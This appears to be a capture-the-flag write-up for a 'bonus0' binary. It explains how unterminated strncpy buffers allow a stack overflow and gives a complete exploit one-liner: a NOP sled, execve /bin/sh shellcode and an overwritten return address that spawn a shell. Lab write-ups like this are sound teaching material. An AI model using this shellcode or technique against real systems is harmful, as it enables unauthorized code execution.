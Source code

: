 We have two buffers of 20 bytes that we can use for our bof exploit.
In both case we can read up to **4096** chars, then `strncpy` will then be called to copy the 20 first bytes inside ou buffers. But if the input string is longer than 20 bytes then the buffer will not be NULL-terminated, so we can store whatever we inside of it. We'll use this to write our **shellcode** in the first buffer after a **NOP sled**. We juste need an address inside our **NOP sled** to jump to it : `0xbfffe6bd` (could have be any in range(buffer start address, 4096)).

We now want to overflow the first buffer of 42 chars. The program will cat inside of it : `buf1 + buf2 + ' ' + buf2`, that's equal to `40 + 1 + 20` bytes written to our buffer and overflow it. Thanks to our the [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) we know that the offset to `eip` is 9 if we max out the buffers.

```shell
(python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; python -c 'print "A" * 9 + "\xbd\xe6\xff\xbf" + "A" * 7' ; cat -) | ./bonus0
```
